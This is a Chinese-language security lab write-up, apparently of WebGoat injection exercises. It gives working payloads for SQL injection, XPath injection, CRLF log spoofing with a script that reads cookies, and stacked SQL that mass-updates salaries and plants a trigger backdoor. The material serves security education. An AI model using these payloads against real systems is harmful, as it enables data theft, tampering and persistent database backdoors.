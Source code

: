 #### 1.2 Numeric SQL Injection

因为将url的内容直接放到了sql语句中，所以可以直接进行sql植入。

点击Go！按钮，捕获req包：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 00.22.10.png" alt="Screenshot 2023-05-19 at 00.22.10" style="zoom:50%;" />

在station字段添加 `+OR+1=1` ，查询所有内容：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 00.25.17.png" alt="Screenshot 2023-05-19 at 00.25.17" style="zoom:50%;" />

#### 1.3 Log Spoofing

因为直接将User Name的内容放入了页面html中，所以可以使用`%0D`、`%0A`来模拟换行，并且植入js语句，如果当前有cookie，则可以获取cookie并使用。

在User Name中输入`YujieKONG%0d%0aLogin Succeeded for username: admin<script>alert(document.cookie)</script>` ：

![Screenshot 2023-05-19 at 01.04.48](/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 01.04.48.png)

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 01.05.08.png" alt="Screenshot 2023-05-19 at 01.05.08" style="zoom:50%;" />

#### 1.4 XPATH Injection

由于使用form提交User Name和Password，且使用XPATH进行语句解析（和sql类似），所以在User Name中输入`Smith' or 1=1 or 'a'='a` ，在Password中输入任意字符（Required Fields）。这时表单被解析为`(loginID/text()='Smith' or 1=1 ) OR ( 'a'='a' and passwd/text()='password') `，由此获得所有信息：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 12.21.37.png" alt="Screenshot 2023-05-19 at 12.21.37" style="zoom:50%;" />

#### 1.5 String SQL Injection

由于直接将文本内容当作sql语句传入，所以只需要输入文本`Smith' OR '1'='1`即可：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 12.34.27.png" alt="Screenshot 2023-05-19 at 12.34.27" style="zoom:50%;" />

#### 1.6 Database Backdoors

由于直接以文本内容运行了sql语句，所以我们可以通过分号，加入任意一条我们想运行的sql语句。

##### Stage 1

输入`101 or 1=1; update employee set salary=999999`来更新工资：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 12.46.16.png" alt="Screenshot 2023-05-19 at 12.46.16" style="zoom:50%;" />

##### Stage 2

输入`101; CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='hack@hack.com' WHERE userid = NEW.userid`来创建一个触发器，在employee表插入新员工的时候，将email改为另一个地址`hack@hack.com`：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 12.50.41.png" alt="Screenshot 2023-05-19 at 12.50.41" style="zoom:50%;" />
